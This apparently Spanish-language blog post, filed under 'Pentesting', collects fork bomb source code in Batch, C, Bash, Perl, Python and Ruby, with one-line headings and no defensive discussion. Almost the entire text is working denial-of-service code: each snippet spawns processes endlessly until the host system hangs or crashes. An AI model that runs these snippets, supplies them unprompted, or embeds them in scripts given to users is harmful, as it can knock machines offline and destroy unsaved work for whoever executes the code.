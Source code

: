 ```yaml
---
Title: Tipos de bombas fork
Date: 2015-09-1 14:01
Modified: 2015-09-1 14:01
Category: Pentesting
Tags: code, programacion, python, linux, perl, bash, bomba, fork
Slug: bomba_fork
Authors: procamora
Summary:
---
```


## Ejemplo de una bomba fork

#### Código fuente de una bomba fork programada en Batch funcional en cualquier versión de Microsoft Windows:

```bath
%0|%0
```

O bien, una reacción más rápida:

```bath
:s
start "" %0
goto :s
```


#### Código fuente de una bomba fork programada en UNIX C o C++:

```c
#include <unistd.h>
void main() {
	while(1)
	fork();
}
```


#### Bomba fork para bash de linux

```bash
:(){ :|:& };:
```


#### Perl:

```perl
fork while fork
```


#### Python:
```python
import os
while True:
	os.fork()
```


#### Ruby:
```ruby
def forkbomb
	loop {
		fork {
			forkbomb
		}
	}
	end;
forkbomb
```
